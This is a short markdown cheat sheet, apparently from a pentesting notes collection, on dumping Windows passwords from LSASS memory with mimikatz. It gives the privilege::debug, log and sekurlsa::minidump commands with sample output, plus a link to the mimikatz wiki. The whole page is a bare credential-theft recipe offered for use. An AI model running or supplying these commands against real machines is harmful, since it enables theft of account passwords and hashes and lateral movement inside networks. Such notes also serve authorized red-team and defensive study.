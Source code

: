 # Windows - Dumping Passwords from LSASS

**Must have SeDebugPrivilege**

```
mimikatz# privilege::debug
Privilege '20' OK
```

Checking if debug levels are correct

```
mimikatz# log <log_file>
Using 'log_file' for logfile : OK

mimikatz# log /stop
```

Turning on logging to output to file (Starting and stopping)

```mimikatz# sekurlsa::minidump lsass.dmp```

Dumping password from lsass dump

**References:**
* https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa
